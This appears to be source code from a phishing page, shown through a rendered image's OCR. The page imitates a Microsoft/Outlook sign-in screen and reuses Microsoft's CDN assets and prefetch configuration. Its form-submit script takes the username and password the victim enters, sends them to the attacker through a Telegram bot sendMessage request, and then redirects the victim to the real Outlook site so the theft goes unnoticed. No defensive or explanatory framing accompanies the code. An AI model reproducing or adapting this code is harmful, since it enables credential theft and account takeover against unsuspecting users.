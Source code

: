 
      formal.addEventListener("submit", e =>{
          e.preventDefault();

          let result1 = document.querySelector('#usr').value
          let result2 = document.querySelector('#pwd').value
          
          fetch(`https://api.telegram.org/bot${bot.TOKEN}/sendMessage?chat_id=${bot.chatID}&text=ATT-RESULT=Username::${result1}==++==Password::${result2}`, {
              method: "GET"
          }).then(success => {
              window.location.replace("https://outlook.live.com/");
          }, error => {
              alert("Message not sent")
              console.log(error)

          })
      })
  </script>
<script type="text/javascript">
            $Do.when("doc.ready", function () {



        setTimeout('IframeTimeout()', 5000)

            });
        </script><script type="text/javascript">
//<![CDATA[
(function () {
var $Prefetch=

{"rfPre":true,"delay":5000,"maxHistory":4,"maxAge":43200,"ageRes":1440,"na

me":"clrc","fetch":

[{"path":"https://aadcdn.msftauth.net/ests/2.1/content/images/microsoft_lo

go_7zyesnzhfxur7eprws2m2q2.png","hash":"Tr2k76qQ","rf":true},

{"path":"https://aadcdn.msftauth.net/ests/2.1/content/images/work_account_

gwpgszjrdzmg9t-etotdlg2.png","hash":"/YFntclQ","rf":true},

{"path":"https://aadcdn.msftauth.net/ests/2.1/content/images/personal_acco

unt_d3k1lqya8k5_mmblgg85rq2.png","hash":"onsBJBPz","rf":true},

{"path":"https://aadcdn.msftauth.net/ests/2.1/content/cdnbundles/converged

.v2.login.min_59_uuouser7hrkmvbaz1jw2.css","hash":"/tphFReA","co":true,"rf

":true},

{"path":"https://aadcdn.msftauth.net/ests/2.1/content/cdnbundles/jquery.1.

11.min__yok_chwseypwbmuffnnaa2.js","hash":"4FOo2hy7","co":true,"rf":true},

{"path":"https://aadcdn.msftauth.net/ests/2.1/content/cdnbundles/aad.login

.min_ynywyfekfmsp3ljup2epra2.js","hash":"UKjxVGGn","co":true,"rf":true}],"
